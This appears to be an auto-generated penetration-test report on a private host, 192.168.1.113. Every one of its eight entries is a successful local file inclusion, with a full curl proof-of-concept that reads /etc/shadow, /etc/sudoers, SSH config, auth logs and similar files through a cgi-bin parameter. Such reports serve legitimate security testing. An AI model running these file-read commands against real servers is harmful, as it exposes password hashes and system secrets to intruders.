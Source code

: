 # HTTP Post-Exploitation Report - 192.168.1.113

**Target:** 192.168.1.113:80
**Generated:** 2025-09-02 02:32:02

## Executive Summary
- **Total Post-Exploitation Actions:** 8
- **Successful Actions:** 8
- **Failed Attempts:** 0

## Post-Exploitation Results

### LFI File Download
- **Target:** 192.168.1.113:80
- **Details:** Downloaded /etc/passwd
- **Proof:** Saved to outputs/lfi_cgi_bin__etc_passwd.txt
- **PoC:** `curl 'http://192.168.1.113/cgi-bin/?file=/etc/passwd'`

### LFI File Download
- **Target:** 192.168.1.113:80
- **Details:** Downloaded /etc/shadow
- **Proof:** Saved to outputs/lfi_cgi_bin__etc_shadow.txt
- **PoC:** `curl 'http://192.168.1.113/cgi-bin/?file=/etc/shadow'`

### LFI File Download
- **Target:** 192.168.1.113:80
- **Details:** Downloaded /etc/hosts
- **Proof:** Saved to outputs/lfi_cgi_bin__etc_hosts.txt
- **PoC:** `curl 'http://192.168.1.113/cgi-bin/?file=/etc/hosts'`

### LFI File Download
- **Target:** 192.168.1.113:80
- **Details:** Downloaded /etc/ssh/sshd_config
- **Proof:** Saved to outputs/lfi_cgi_bin__etc_ssh_sshd_config.txt
- **PoC:** `curl 'http://192.168.1.113/cgi-bin/?file=/etc/ssh/sshd_config'`

### LFI File Download
- **Target:** 192.168.1.113:80
- **Details:** Downloaded /etc/sudoers
- **Proof:** Saved to outputs/lfi_cgi_bin__etc_sudoers.txt
- **PoC:** `curl 'http://192.168.1.113/cgi-bin/?file=/etc/sudoers'`

### LFI File Download
- **Target:** 192.168.1.113:80
- **Details:** Downloaded /var/log/auth.log
- **Proof:** Saved to outputs/lfi_cgi_bin__var_log_auth.log.txt
- **PoC:** `curl 'http://192.168.1.113/cgi-bin/?file=/var/log/auth.log'`

### LFI File Download
- **Target:** 192.168.1.113:80
- **Details:** Downloaded /var/log/syslog
- **Proof:** Saved to outputs/lfi_cgi_bin__var_log_syslog.txt
- **PoC:** `curl 'http://192.168.1.113/cgi-bin/?file=/var/log/syslog'`

### LFI File Download
- **Target:** 192.168.1.113:80
- **Details:** Downloaded /etc/crontab
- **Proof:** Saved to outputs/lfi_cgi_bin__etc_crontab.txt
- **PoC:** `curl 'http://192.168.1.113/cgi-bin/?file=/etc/crontab'`

